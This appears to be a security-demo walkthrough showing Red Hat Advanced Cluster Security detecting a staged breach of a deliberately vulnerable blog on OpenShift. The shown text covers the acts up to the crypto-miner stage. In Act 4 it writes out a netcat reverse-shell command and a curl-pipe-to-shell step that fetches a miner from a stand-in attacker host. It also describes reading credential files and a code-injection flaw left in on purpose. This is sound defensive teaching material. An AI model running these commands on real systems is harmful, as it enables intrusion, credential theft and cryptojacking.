# The Unhackable Blog — end-to-end walkthrough

> Every screenshot below was captured from a real run of this demo on OpenShift Local (CRC 2.64,
> OpenShift 4.22) with **RHACS 5.0.0**, driven by `scripts/demo.sh` and `scripts/attacker.sh`.
> Nothing is mocked. How to set it up: [../README.md](../README.md). The talk built on it: [TALK.md](TALK.md).

**The story in one line:** a blog with **zero CVEs and the lowest risk in the cluster** is breached
through a bug in its own code. RHACS sees every attacker move — recon, credential theft, lateral
movement, a reverse shell and a crypto miner talking to an external attacker — then **kills the pod**
and a NetworkPolicy contains it. *0 CVEs is where security starts, not where it ends.*

| | Act | What the audience sees |
|---|---|---|
| 1 | [Unhackable](#act-1--unhackable) | 0 CVEs, minimal risk, no violations |
| 2 | [Day zero](#act-2--day-zero) | "Check links" → remote code execution → *Unauthorized process* |
| 3 | [Loot](#act-3--living-off-the-land-loot) | honeytoken, card data from payments-api → *Honeytoken*, *Lateral movement* |
| 4 | [Persistence & profit](#act-4--persistence-and-profit) | reverse shell + crypto miner to **attacker.example.local** → network graph |
| 5 | [Respond](#act-5--respond) | RHACS kills the pod, the shell dies, NetworkPolicy blocks egress |
| 6 | [Fix forward](#act-6--fix-forward) | v2: no shell, still 0 CVEs, exploit is dead |

**Cast**

| | Who | Where |
|---|---|---|
| 🛡️ | **Unhackable Blog** — Go, one dependency (yaegi, 0 CVEs), Alpine 3.24, non-root, read-only rootfs, no SA token | `unhackable/blog` |
| 💳 | **payments-api** — the crown jewels, internal only | `payments/payments-api` |
| ☠️ | **The attacker** — `attacker.example.local` → `1.2.3.4`, a public address on the presenter's laptop, outside the cluster | `scripts/attacker.sh` |

---

## Act 1 — Unhackable

*"Meet the Unhackable Blog. Marketing says it can't be hacked. Let's ask RHACS."*

The blog is a polished product: posts, an editor, and a brand-new **Check links** feature.



The editor checks every link in a draft before publishing. It works, and writers love it.



```bash
scripts/demo.sh act1
```



**Vulnerability Management → Images without CVEs.** New in the RHACS 5 UI: a dedicated view for
images with nothing to fix. `unhackable/blog:v1` is there — Alpine 3.24, scanned by **Scanner V4**.



Open the image: **0 critical, 0 important, 0 moderate, 0 low, 0 fixable.** A static Go binary with one
third-party module (yaegi — 0 CVEs) on a fully upgraded Alpine with `apk` removed.



**Risk → blog.** The only risk indicators are two writable volumes, one mounted secret and a port
inside the cluster. Non-root, read-only root filesystem, all capabilities dropped, no service account
token.



**Violations:** none.



> 💬 *"0 CVEs. Hardened. Every gate is green. If this were your app, you'd ship it. So — is it secure?"*

---

## Act 2 — Day zero

*"Under the hood, Check links evaluates your 'rule' as Go, in an interpreter we handed `exec.Command`. So a rule can run commands."*

```bash
scripts/demo.sh act2
```

The attacker sends a "rule" that runs `id`, `uname`, `cat /etc/os-release`. They come back:
**remote code execution**, as OpenShift's random non-root UID.



> 💬 *"That's not a CVE. There's no package to upgrade, no advisory, no scanner signature. It's our
> code — CWE-94, code injection."*

Seconds later, in **Violations**: **TDR – Unauthorized process in the Unhackable Blog** (Critical), plus
the built-in *Unauthorized Process Execution*.


Open it: exactly the attacker's binaries — `/usr/bin/id`, `/bin/uname`, `/bin/cat`, `/usr/bin/head` —
with container ID, UID and arguments.



**How:** RHACS learned the blog's **process baseline** and the setup **locked** it to exactly one
binary: `/usr/local/bin/blog`. The app validates links natively and runs rules in-process, so it never
spawns a child — the baseline is one process. Anything else is an attack, and RHACS catches it. Baselines beat signatures.

---

## Act 3 — Living off the land: loot

*"An attacker's first move: find credentials. Hardening makes this hard…"*

```bash
scripts/demo.sh act3
```

No service account token. Nothing in the environment. But there's `~/.aws/credentials` and the app's `/opt/blog/.env`… The
attacker then probes the Kubernetes API and **reads card data from payments-api**.



> 💬 *"Those AWS keys are fake. We planted them. The app never touches that file — so the only thing that
> ever will is an attacker. It's a honeytoken."*

**TDR – Honeytoken touched: decoy AWS credentials** — `/bin/cat` with the argument
`~/.aws/credentials` and `/opt/blog/.env`.



**TDR – Unexpected network flow to payments-api** (Critical). payments-api's **network baseline** is
empty and locked — nothing legitimate ever calls it. Source `blog` (namespace `unhackable`),
destination `payments-api:8080/TCP`.



The **Network Graph** shows the new edge blog → payments-api.



---

## Act 4 — Persistence and profit

*"HTTP requests are slow and noisy. The attacker wants an interactive shell — and money."*

The attacker is **outside the cluster**: `attacker.example.local` resolves (through the attacker's own
nameserver) to `1.2.3.4` on the presenter's laptop. Second terminal:

```bash
scripts/attacker.sh c2        # reverse-shell listener on attacker.example.local:4444
scripts/demo.sh act4          # main terminal
```

1. **Reverse shell** — `nc attacker.example.local 4444 -e /bin/sh`.
2. **Crypto miner** — `curl -s http://attacker.example.local:8080/stage.sh | sh`: the root FS is
   read-only and `/dev/shm` is `noexec`, but `/tmp` is writable. `xmrig` lands in `/tmp/.cache`, gets
   `chmod +x`, starts and connects to `attacker.example.local:3333`. *(A harmless simulator.)*



On the attacker's laptop, the shell arrives — `id`, `ps` run inside the "unhackable" pod, and the miner
is visible:



The attacker's servers log the download, the DNS lookups and the miner's shares:



**Violations** fill up: *Reverse shell tool executed*, *Crypto miner*, *Container drift*, *Unauthorized
process* — and RHACS's built-ins *Netcat Execution Detected* and *Cryptocurrency Mining Process
Execution*.


**TDR – Crypto miner in the Unhackable Blog:** `/tmp/.cache/xmrig` executed with
`-o stratum+tcp://attacker.example.local:3333`.

